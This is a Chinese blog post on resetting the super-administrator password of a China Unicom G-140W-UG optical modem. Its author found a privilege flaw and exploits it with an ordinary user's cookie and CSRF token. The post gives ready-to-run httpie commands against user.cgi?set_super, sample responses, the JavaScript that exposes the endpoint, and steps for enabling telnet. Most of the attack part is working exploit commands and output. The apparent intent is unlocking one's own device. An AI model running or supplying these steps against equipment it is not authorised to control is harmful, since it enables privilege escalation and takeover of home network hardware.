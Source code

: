 ```yaml
---
title: 联通 G-140W-UG 光猫管理员密码
date: 2022-08-30
tags: [networking, hack]
published: true
---
```


# 利用权限漏洞重设超级管理员密码

首先使用光猫默认用户登录(用户名和密码在光猫底部贴纸上)，然后从浏览器开发人员工具复制 Cookie：

```
Cookie: lsid=NZFrDLysprLjJKHU; lang=chs; sid=gkXdVRffiwhKzDhI
```

下面的步骤需要安装 `httpie`, 读者亦可自行将下面的命令翻译成对应的 `curl` 命令。

执行下面的命令来获取 `csrf_token`

```sh
http 192.168.1.1/user.cgi 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU' | grep csrf_token 
```

在输出中可以找到 `csrf_token`.

```js
                    settings.data = 'csrf_token=NKnoyiroxbYTHiLd';
                    if (settings.data.indexOf("csrf_token") < 0)
                        settings.data += '&csrf_token=NKnoyiroxbYTHiLd'
        $("form").prepend('<input type="hidden" name="csrf_token" value="NKnoyiroxbYTHiLd" />');
```

然后执行下面的命令来设置光猫超级管理员密码：

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=新的管理员密码 pswdConfirmSuper=新的管理员密码 csrf_token=上面的csrf_token '你的Cookie'
```

将上述变量都带进去之后，命令会像下面这样：（注意：不要设置像 12345678 这样的弱密码）

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=12345678 pswdConfirmSuper=12345678 csrf_token=NKnoyiroxbYTHiLd 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU'
```

最后返回结果应该包含设置成功的消息。

```http
HTTP/1.0 200 OK
Cache-Control: private,max-age=0;
Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'
Content-type: text/html;charset=UTF-8;
Strict-Transport-Security: max-age=2592000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

{
    "err": "unknown error",
    "msg": "设置成功",
    "ret": 0
}
```

如果你没有看到设置成功的消息，而是 `302 Found` 的话，大概率是你的 Cookie 过期了，请重新登录光猫，获取新的 Cookie。

## 这个漏洞是如何被发现的

登录普通账户之后查看 `login.cgi` 页面的源代码，可以发现普通的密码设置和管理员密码的设置过程都写在里面。

```js
$("#edit").click(function(){
    $("#edit").prop("disabled",true);
    var p1=$.trim($(":input[name='pswdNewSuper']").val())
    var p2=$.trim($(":input[name='pswdConfirmSuper']").val())
    if(p1!=p2){
        alert("密码不匹配");
        $("#edit").prop("disabled",false);
        return false;
    }
    if(!p1 && !p2){
        alert("新密码不能为空");
        $("#edit").prop("disabled",false);
        return false;
    }
    if(p1.length<8){
        alert("密码需要大于等于八位");
        $("#edit").prop("disabled",false);
        return false;
    }
    $.post(location.pathname+"?set_super",$("form").serialize(),null,'json')
        .done(function(data){
            alert(data.msg);
        })
        .always(function(){
            window.location.href=window.location.href;
        })
})
```
- `$.post(location.pathname+"?set_super",$("form").serialize(),null,'json')` 这行代码指出了设置管理员密码的 URL。
- ```js
  var p1=$.trim($(":input[name='pswdNewSuper']").val())
  var p2=$.trim($(":input[name='pswdConfirmSuper']").val())
  ```
  指出了设置管理员密码需要的表单字段。

随后，经过测试，我发现使用普通用户的 Cookie 值就能调用此接口重设超级管理员密码。


# 开启 telnet

前往光猫登录页面，使用刚才重设的密码登录管理员账户。

然后在浏览器中打开 `http://192.168.1.1/system.cgi?telnet` 这个页面，可以点击开启按钮来启用 telnet.

然后便可以 `telnet 192.168.1.1` 连进光猫愉快的玩耍了！
